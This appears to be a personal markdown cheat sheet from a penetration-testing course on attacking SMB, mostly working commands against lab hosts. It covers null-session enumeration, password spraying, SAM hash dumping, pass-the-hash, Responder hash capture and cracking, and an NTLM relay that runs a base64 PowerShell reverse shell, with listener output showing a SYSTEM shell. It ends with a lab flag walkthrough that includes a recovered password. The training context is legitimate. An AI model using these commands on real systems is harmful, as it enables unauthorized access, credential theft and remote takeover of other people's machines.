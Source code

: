 ### Attacking SMB

```
# Enumeration

# For instance, on Windows, SMB can run directly over port 445 TCP/IP without the need for NetBIOS over TCP/IP, 
# but if Windows has NetBIOS enabled, or we are targetting a non-Windows host, we will find SMB running on port 139 TCP/IP. 
# This means that SMB is running with NetBIOS over TCP/IP. 
# (UDP ports: 137 and 138.)

sudo nmap 10.129.14.128 -sV -sC -p139,445       # check ports with nmap
```

```
# Misconfigurations

# SMB can be configured not to require authentication, which is often called a null session. 
# Instead, we can log in to a system with no username or password.

smbclient -N -L //10.129.14.128                # list of the server's: -L, use the null session: -N
smbmap -H 10.129.14.128                        # basic example of submap
smbmap -H 10.129.14.128 -r notes               # recursive search in notes share
smbmap -H 10.129.14.128 --download "notes\note.txt"         # download if have READ permissions
smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt"  # upload if have WRITE permissions

rpcclient -U'%' 10.10.110.17                   # tool with a null session to enumerate a target host
rpcclient $> enumdomusers                      # enumerate users inside host
```

[cheat sheet from the SANS Institute](https://www.willhackforsushi.com/sec504/SMB-Access-from-Linux.pdf)

```
./enum4linux-ng.py 10.10.11.45 -A -C            # tool for enumeration with wide options
```

[enum4linux repo](https://github.com/cddmp/enum4linux-ng)

### Protocol Specifics Attacks

```
# If a null session is not enabled, we will need credentials to interact with the SMB protocol. 
# Two common ways to obtain credentials are brute forcing and password spraying.
```

[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)

```
crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!' --local-auth

# Using the --continue-on-success flag will continue spraying even after a valid password is found. 
# it is very useful for spraying a single password against a large user list. 
# Additionally, if we are targetting a non-domain joined computer, we will need to use the option --local-auth. 
```


### Remote Code Execution (RCE)

```
# PsExec is a tool that lets us execute processes on other systems, 
# complete with full interactivity for console applications, without having to install client software manually. 
# It works because it has a Windows service image inside of its executable.
```

[PsExec from MS site](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)

[ImpacketPsExec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) 

```
# Python PsExec like functionality example using RemComSvc
```

[Impacket SMBExec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py)

```
# A similar approach to PsExec without using RemComSvc.
```

[Impacket atexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/atexec.py)

```
# This example executes a command on the target machine through the 
# Task Scheduler service and returns the output of the executed command.
```

[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)

```
# includes an implementation of smbexec and atexec.
```

[Metasploit PsExec](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/windows/smb/psexec.md)

```
Ruby PsExec implementation.
```

### Impacket PsExec

```
impacket-psexec -h                                               # help command to show all options
impacket-psexec administrator:'Password123!'@10.10.110.17        # basic example of command
```  

### CrackMapExec

```
crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec # Login through smb
crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users      # Enumerating Logged-on Users
crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam                   # Extract Hashes from SAM Database
crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE       # Login with Pass-the-Hash (PtH)
```

### Forced Authentication Attacks

[Responder](https://github.com/lgandx/Responder)

```
responder -I <interface name>
sudo responder -I ens33
```

[hashcat](https://hashcat.net/hashcat/)

```
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt   # cracking pass with related tool module -m 5600
```

```
# The NTLMv2 hash was cracked. The password is P@ssword. 
# If we cannot crack the hash, we can potentially relay the captured hash 
# to another machine using impacket-ntlmrelayx or Responder MultiRelay.py. 

# First, we need to set SMB to OFF in our responder configuration file (/etc/responder/Responder.conf).

cat /etc/responder/Responder.conf | grep 'SMB ='

# Then we execute impacket-ntlmrelayx with the option --no-http-server, -smb2support, 
# and the target machine with the option -t.

impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146

# We can create a PowerShell reverse shell using https://www.revshells.com/, 
# set our machine IP address, port, and the option Powershell #3 (Base64).

impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e JABjAGwAaQBlAG4AdAAgA...ACkA'

# Once the victim authenticates to our server, we poison the response 
# and make it execute our command to obtain a reverse shell.

nc -lvnp 9001

listening on [any] 9001 ...
connect to [10.10.110.133] from (UNKNOWN) [10.10.110.146] 52471

PS C:\Windows\system32> whoami;hostname

nt authority\system
WIN11BOX
```

### Task Solution

```
10.129.203.6

sudo nmap 10.129.203.6 -sV -sC -p139,445   # to check services
smbclient -N -L //10.129.203.6             # to check share with read permissions
hydra -l jason -P /home/user/atck-common-svs/pws.list smb://10.129.203.6   # not working 
crackmapexec smb 10.129.203.6 -u jason -p /home/user/atck-common-svs/pws.list --local-auth  # got creds, pass file from resources
ssh jason@10.129.203.6                     # not working , need id_rsa file
smbclient -U jason \\\\10.129.203.6\\GGJ   # login with jason creds from above step 
34c8zuNBo91!@28Bszh
ssh jason@10.129.203.6 -i id_rsa           # login with id_rsa file
cat flag.txt                               # ctf
```

### Attacking Common Services 

```
# One recent significant vulnerability that affected the SMB protocol was called SMBGhost with the CVE-2020-0796. 
# The vulnerability consisted of a compression mechanism of the version SMB v3.1.1 which made Windows 10 versions 1903 and 1909 
# vulnerable to attack by an unauthenticated attacker. 
# The vulnerability allowed the attacker to gain remote code execution (RCE) and full access to the remote target system.
```

[CVE-2020-0796](https://arista.my.site.com/AristaCommunity/s/article/SMBGhost-Wormable-Vulnerability-Analysis-CVE-2020-0796)
[SMBGhost-MSF](https://www.exploit-db.com/exploits/48537)

```
# The Concept of the Attack

In simple terms, this is an integer overflow vulnerability in a function of an SMB driver 
# that allows system commands to be overwritten while accessing memory.
# An integer overflow results from a CPU attempting to generate a number that is greater than the value required 
# for the allocated memory space. 
```
-------------------------------------
